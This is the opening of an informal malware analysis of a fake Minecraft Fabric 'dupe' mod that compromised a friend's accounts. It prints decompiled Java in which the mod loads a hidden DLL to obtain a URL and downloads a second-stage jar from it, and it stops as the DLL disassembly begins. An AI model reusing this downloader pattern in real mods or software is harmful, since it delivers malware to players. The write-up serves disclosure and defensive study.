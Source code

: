 # Malware Analysis
## Background

i got this Malware from a friend who got hacked by it. 
The malware is disguised as a Minecraft Fabric mod to dupe items in the version 1.21.
after a day or so our base was gone and he had new "friends" on discord.
After noticing i asked him to send me the "Mod".

## Stage 1: The Minecraft Mod

After extracting the mod  
`$ unzip Malware.jar`

and looking whats there i found a suspicios dll called mysecret.dll.  
After looking into it further i also found that in [NewMod.class (Dumped)](./../assets/malware-analysis/stage1/unpacked/dev/majanito/NewMod.java)  
are some things i do **NOT** like

number one:
```
    private byte[] downloadJar(String urlString) throws Exception {
        URL url = new URL(urlString);
        HttpURLConnection conn = (HttpURLConnection)url.openConnection();
        conn.setRequestMethod("GET");
        try (InputStream in = conn.getInputStream();){
            byte[] byArray;
            try (ByteArrayOutputStream out = new ByteArrayOutputStream();){
                int n;
                byte[] buffer = new byte[8192];
                while ((n = in.read(buffer)) != -1) {
                    out.write(buffer, 0, n);
                }
                byArray = out.toByteArray();
            }
            return byArray;
        }
    }
```

which is called btw
`byte[] jarBytes = this.downloadJar(Secret.VALUE);`

---

and number two:
```
$ cfr Secret.class 
/*
 * Decompiled with CFR 0.152.
 */
package dev.majanito;

import dev.majanito.NativeUtils;

public class Secret {
    public static final String VALUE;

    private static native String loadSecret();

    static {
        String libPath = "/native/" + System.mapLibraryName("mysecret");
        NativeUtils.loadLibraryFromJar(libPath);
        VALUE = Secret.loadSecret();
    }
}
```
---
This brought me to the conclusion that the Mod Loads a .dll, mysecret.dll to be exact,  
and Dowloads something from a link it returns.

### Stage 1.2, getting the download link

looking at the strings in the dll we dont see much,
the most notable beeing:  
`Java_dev_majanito_Secret_loadSecret`

dumping it with  
`objdump -d mysecret.dll`  
we get [this dump](./../assets/malware-analysis/stage1/dump.txt),  
though we only care about the loadSecret function.


